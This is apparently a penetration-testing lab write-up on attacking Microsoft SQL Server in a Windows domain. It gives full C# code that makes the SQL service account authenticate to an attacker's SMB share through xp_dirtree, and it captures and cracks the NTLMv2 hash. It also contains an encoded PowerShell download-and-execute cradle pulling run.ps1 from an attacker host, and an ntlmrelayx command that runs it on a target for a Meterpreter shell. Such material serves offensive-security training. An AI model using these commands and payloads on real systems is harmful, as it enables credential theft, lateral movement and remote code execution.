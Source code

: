 ## The Attack

**Premise** If we can force an SQL server to connect to an SMB share we control, the connection will include authentication data. NTLM authentication will take place and we should be able to capture the hash of the user account under whose context the SQL server is running.

**Steps**

1.  We are going to start by forcing the SQL server to perform a connection request to a SMB share on our Kali machine. We'll use the [xp_dirtree](https://www.sqlservercentral.com/blogs/how-to-use-xp_dirtree-to-list-all-files-in-a-folder) SQL procedure, which lists all files in a given folder. If we use our unprivileged access in the database to execute the _xp_dirtree_ procedure, the service account of the SQL server will attempt to list the contents of a given SMB share. If the hostname is given as an IP address, Windows will automatically revert to NTLM authentication instead of Kerberos authentication.

The code to authenticate and execute the query will be as follows:
```csharp
using System;
using System.Data.SqlClient;

namespace SQL
{
    class Program
    {
        static void Main(string[] args)
        {
            String sqlServer = "dc01.corp1.com";
            String database = "master";

            String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);
           
            try
            {
                con.Open();
                Console.WriteLine("Auth success!");
            }
            catch
            {
                Console.WriteLine("Auth failed");
                Environment.Exit(0);
            }

            String query = "EXEC master..xp_dirtree \"\\\\192.168.119.120\\\\test\";";
            SqlCommand command = new SqlCommand(query, con);
            SqlDataReader reader = command.ExecuteReader();
            reader.Close();
            
            con.Close();
        }
    }
}
```

2.  We will now start responder to catch the NTLM share. We will run the c# application inside our victim box, and also shut down any smb connections with the responder running.

![ad=da](../../../Screenshots/ad=da.png)

The hash obtained by Responder is called a [NTLMv2](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) hash.

3.  We will finally crack the hash using JTR:

![ad-rt](../../../Screenshots/ad-rt.png)

## Relay The Hash

If we have captured the NTLM hash of a domain user that is a local administrator on a remote machine, we can perform a pass-the-hash attack and gain remote code execution. To perform this attack, we are going to use the [_Impacket_](https://github.com/SecureAuthCorp/impacket) _ntlmrelayx_ tool. We will use our previously-developed PowerShell runner to execute a Meterpreter staged payload. We first create our encoded powershell download cradle with the linux powershell utility:

```sh
pwsh
$text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.147/run.ps1') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
```

Finally, we run the following command, to use ntlmrelayx and start a listener, and run the c# console application followed by it:

```sh

sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.136.6 -c 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAOQAuADEANAA3AC8AcgB1AG4ALgBwAHMAMQAnACkAIAB8ACAASQBFAFgA'
```

This results in NTLM authentication against our Kali machine and relaying of the Net-NTLM hash.

![](../../../Screenshots/af-faw.png)

And we get a shell on the domain joined machine:

![](../../../Screenshots/cac-csc.png)